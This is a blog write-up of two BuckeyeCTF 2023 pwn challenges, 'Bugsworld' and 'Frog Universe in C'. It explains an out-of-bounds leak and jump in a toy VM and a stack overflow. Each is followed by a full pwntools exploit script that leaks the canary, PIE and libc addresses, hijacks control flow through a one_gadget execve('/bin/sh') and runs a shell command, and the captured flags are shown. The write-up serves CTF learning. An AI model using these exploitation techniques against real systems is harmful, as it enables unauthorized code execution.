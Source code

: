 ```yaml
---
layout: post
title: "BuckeyeCTF 2023 Pwnable Write up"
date: 2023-10-02 23:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux]
media_subpath: /assets/img/20231002_buckeye_write-up
image: 1.jpg
---
```


I solved 4 pwn (Beginner Menu, Starter Buffer, Bugsworld, and Frog Universe in C), 1 crypto (coding), and 1 misc (New Management).

## **Bugsworld**

---

### **[0x00] Description**

> The original BUGSWORLD interpreter was too slow because it was written in JAVA. This new one is 100x faster probably because it's written in C!
> 
> Author: jm8
> 
> 36 solves

### **[0x01] Summary**

Simple VM, OOB Leak, and OOB Execute vulnerability

### **[0x02] Solutions**

We can enter the instructions of the game, and the game validates the instructions and execute it.

It has 2 vulnerability. First is OOB Leak.

```c
  // show the disassembly and validate program
  for (int i = 0; i < n; i++) {
    // write first and jump to it.
    printf("%s", instruction_names[bytecode[i]]);
    if (bytecode[i] < 0 || bytecode[i] > 16) {
      printf("Invalid instruction\n");
      return;
    }
    if (bytecode[i] >= INSTRUCTION_JUMP) {
      i++;
      printf(" %ld\n", bytecode[i]);
    } else {
      printf("\n");
    }
  }
```
The game validates the instructions but it prints the contents of the instructions first.

So, we can print PIE base through OOB leak. I print the `do_move` function pointer (0x2040 + 0x20 * 0xFF).

Second one is OOB Execution and absent of initilaization.

```c
void do_jump(State *state) {
  state->pc++;
  state->pc = bytecode[state->pc]; // oob
}
```

The game jumps to the next instructions without oob check and bytecode array never be initialized with zero.

So prev bytecode is remain at the next instrucitons and we can use the bytecode beyond the instruction range.

It means that we can execute any address and control RIP. Nicely the program has `win` function.

```py
from pwn import *

def writeProgram(size, prog):
    p.sendlineafter(b"bytecode?\n> ", str(size).encode())
    p.recvuntil(b"instructions:\n> ")
    for i in range (size):
        p.sendline(str(prog[i]).encode())

if args.REMOTE:
    p = remote('chall.pwnoh.io', 13382)
else:
    p = process('./bugsworld', aslr=1)

# leak pie
writeProgram(1, [0xfa + 5])
pie = u64(p.recv(6).ljust(8, b'\x00')) - 0x134d
log.success(f"pie base @ {hex(pie)}")
win = pie + 0x12a9

writeProgram(5, [0, 0, 0, 0x1c, win])
writeProgram(2, [6, 3])

p.interactive()
```

`bctf{7h3_w0rld_15_fu11_0f_bu65_295c62b69}`

## **Frog Universe in C (FUC)**

---

### **[0x00] Description**

> ... There are leaks in the buffers to be found
> 
> Author: kirin <3 gsemaj
> 
> 10 solves

### **[0x01] Summary**

Simple game with Random and Stack BOF until RET + 8

### **[0x02] Solutions**

The game is maze and it has movement of up, down, left, and right.

After a initialization of maze, `explore` function is called.

```c
unsigned __int64 explore()
{
  char v1; // [rsp+3h] [rbp-Dh] BYREF
  int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  for ( i = 1; i; i = sub_2D2F() )
  {
    printf("(%i, %i)\n", (unsigned int)MAZE->X, (unsigned int)MAZE->Y);
    input(&v1, 0x25);
    switch ( v1 )
    {
      case 'w':
        if ( MAZE->UPWARD )
          MAZE = MAZE->UPWARD;
        break;
      case 's':
        if ( MAZE->DOWNARD )
          MAZE = MAZE->DOWNARD;
        break;
      case 'a':
        if ( MAZE->LEFTWARD )
          MAZE = MAZE->LEFTWARD;
        break;
      case 'd':
        if ( MAZE->RIGHTWARD )
          MAZE = MAZE->RIGHTWARD;
        break;
      default:
        printf("Invalid input %s\n", &v1);
        break;
    }
  }
  return v3 - __readfsqword(0x28u);
}
```

Simply it has BOF at `v1`, and it prints the `v1` so we can leak Stack address and RET.

Using this, I can leak the Canary, Stack, PIE base, and libc base.

The maze is initialized with srand and rand complexly, but maze size is 400 x 400. I thought that brute-force works well enough.

Only we want is return condition of `explore` and many exit exists in maze.

```
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

There is nice one_gadget for me and I use it with appropriate SFP, because we can control Stack until RET + 8 (0xD + 0x8 (SFP) + 0x10 (RET, RET+8) == 0x25).

```py
from pwn import *

p = remote('chall.pwnoh.io', 13387)
libc_path = '/usr/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc_path, False)

p.sendlineafter(b")\n", b'A'*6)
p.recvuntil(b"A"*6)
canary = u64(b'\x00' + p.recv(7))
log.success(f"Canary @ {hex(canary)}")

p.sendlineafter(b")\n", b'A'*5 + b'B'*0x8)
p.recvuntil(b"B"*0x8)
stack = u64(p.recv(6).ljust(8, b'\x00'))
target = stack - 0x48 + 0xD
log.success(f"stack @ {hex(stack)}")

p.sendlineafter(b")\n", b'A'*5 + b'B'*0x10)
p.recvuntil(b"B"*0x10)
pie = u64(p.recv(6).ljust(8, b'\x00')) - 0x3431
log.success(f"PIE @ {hex(pie)}")

payload = b'A' + p32(0) + p64(canary)
payload += p64(stack + 0x10) + p64(pie+0x2FCA)
p.sendlineafter(b")\n", payload)

# brute-force (server timeout 10-seconds maybe)
signals = ["it is crushing", "intense heat", "everything is light", "ribbity!",  "the frog...", "slurp"]
flag = True
while flag:
    p.sendline(b'd')
    data = p.recv()
    print(data)
    for s in signals:
        if s in data.decode():
            print(data)
            flag = False
            break


p.sendline(b'd'*5) 
p.sendlineafter(b")", b'c'*5) 
p.recvuntil(b"c"*5)
libc.address = u64(p.recv(6).ljust(8, b'\x00')) - libc.libc_start_main_return
log.success(f"libc base @ {hex(libc.address)}")

one_gadget = libc.address + 0xebcf1
payload = b'a'* 5 + p64(canary)
payload += p64(stack + 0x80) + p64(one_gadget)
p.sendlineafter(b")\n", payload)
p.sendline(b'a')
p.sendline(b'cat /app/run')
p.interactive()
```

`bctf{YouHavePwndDeath,ToYouGoesAFlag}`


